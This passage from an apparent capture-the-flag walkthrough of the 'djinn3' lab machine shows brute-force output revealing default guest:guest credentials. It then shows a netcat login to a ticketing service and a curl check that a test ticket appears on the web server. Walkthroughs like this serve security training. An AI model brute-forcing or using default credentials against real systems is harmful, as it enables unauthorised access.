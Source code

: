 ```python

    s.close()
```
Running it will reveal that we can connect with *guest:guest*:
```markdown
kali@kali:/data/djinn3/files$ python3 bruteforce.py 
[+] Valid credentials found: guest:guest
```
### Supported commands
Now with valid credentials, we can play with the application. There is a help command that lists supported commands. Obviously, the most interesting feature will be open because it allows to create tickets that we can then call from the web server running on port 5000.

Let’s create a *test* ticket:
```markdown
kali@kali:~$ nc djinn.box 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit
    
> open
Title: test
Description: test description
> exit
```
We confirm that the ticket has been added to the tickets list:
```markdown
</html>kali@kali:~$ curl -s http://djinn.box:5000/ | html2text 
 This ticketing software is under development, if you find any issue please
report it to admin
#ID   Title                                              Status      Link
1 2792 Add authentication to the ticket managment system. open        link
2 4567 Remove default user guest from the ticket creation open        link
       service.
3 8345 Error while updating postgres queries              In progress link
4 7723 Jack will temporarily handling the risk limit UI   open        link
5 2984 Update the user information                        In progress link
6 2973 Complete the honeypot project                      In progress link
7 2366 test                                               open        link
```
